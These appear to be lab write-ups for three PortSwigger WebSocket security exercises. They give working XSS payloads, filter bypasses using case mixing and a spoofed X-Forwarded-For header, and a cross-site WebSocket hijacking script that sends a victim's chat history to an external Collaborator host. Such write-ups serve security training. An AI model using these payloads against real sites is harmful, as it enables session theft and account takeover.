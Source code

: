 
# Manipulating WebSocket messages to exploit vulnerabilities

This online shop has a live chat feature implemented using WebSockets.

Chat messages that you submit are viewed by a support agent in real time.

To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser.

---------------------------------------------

Reference: https://portswigger.net/web-security/websockets

---------------------------------------------

Generated link: https://0a32005803392a6a81b1cb9d009d0044.web-security-academy.net/chat

Payload:

```
script><img src=1 onerror='alert(1)'></script>
```



![img](images/Manipulating%20WebSocket%20messages%20to%20exploit%20vulnerabilities/1.png)


# Manipulating the WebSocket handshake to exploit vulnerabilities

This online shop has a live chat feature implemented using WebSockets.

It has an aggressive but flawed XSS filter.

To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser.

Hint: If you're struggling to bypass the XSS filter, try out our XSS labs. Sometimes you can bypass IP-based restrictions using HTTP headers like X-Forwarded-For.

---------------------------------------------

References: 

- https://portswigger.net/web-security/websockets

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For





![img](images/Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/1.png)
![img](images/Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/2.png)

---------------------------------------------

Generated link: https://0ad6009d046afe8e89234bb0009e00bc.web-security-academy.net/


Using the payload from a previous lab I get an error because Javascript is detected:

```
script><img src=1 onerror='alert(1)'></script>
```






![img](images/Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/3.png)
![img](images/Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/4.png)

And the IP address gets blocked so we can not access “/chat”:



![img](images/Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/5.png)

The X-Forwarded-For (XFF) request header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through a proxy server.

We will try with 127.0.0.1 or localhost to find if the detection is evaded.

```
X-Forwarded-For: 127.0.0.1
```

If we add this HTTP header, we can access “/chat”:



![img](images/Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/6.png)

In the options section I will add a rule to add this header to all requests:



![img](images/Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/7.png)

But if we send it to repeater and try the payload, the attack is detected again and the chat ends:



![img](images/Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/8.png)

Everytime this happens we must change the IP address in the X-Forwarded-For HTTP header.

<img src=x onerror=alert(1)>


“<script” closes the connection but “<ScRIpT” does not:



![img](images/Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/9.png)

The same happens with “alert(1)” and "aLeRT(1)" or “alert`1`”:



![img](images/Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/10.png)

However, this payload is not working:

```
ScRIpT><ScRIpT>alert`1`</ScRIpT>
```

Finally it works but using the img with incorrect source payload:

```
ScRIpT><iMg sRc=x OnErRoR=alert`1`>
```



![img](images/Manipulating%20the%20WebSocket%20handshake%20to%20exploit%20vulnerabilities/11.png)


# Cross-site WebSocket hijacking

This online shop has a live chat feature implemented using WebSockets.

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.

---------------------------------------------

Reference: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking

---------------------------------------------

The request to /chat does not contain a CSRF token:



![img](images/Cross-site%20WebSocket%20hijacking/1.png)


Before sending anything, the message “READY” is sent and the server responds:





![img](images/Cross-site%20WebSocket%20hijacking/2.png)
![img](images/Cross-site%20WebSocket%20hijacking/3.png)


Then it is possible to send messages:





![img](images/Cross-site%20WebSocket%20hijacking/4.png)
![img](images/Cross-site%20WebSocket%20hijacking/5.png)



Payload:

```
<script>
    var ws = new WebSocket('wss://0ab10034038a49a581f67501001e002b.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://v95x1aaxyvlt8fptdelcbw94ovumie63.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```






![img](images/Cross-site%20WebSocket%20hijacking/6.png)
![img](images/Cross-site%20WebSocket%20hijacking/7.png)
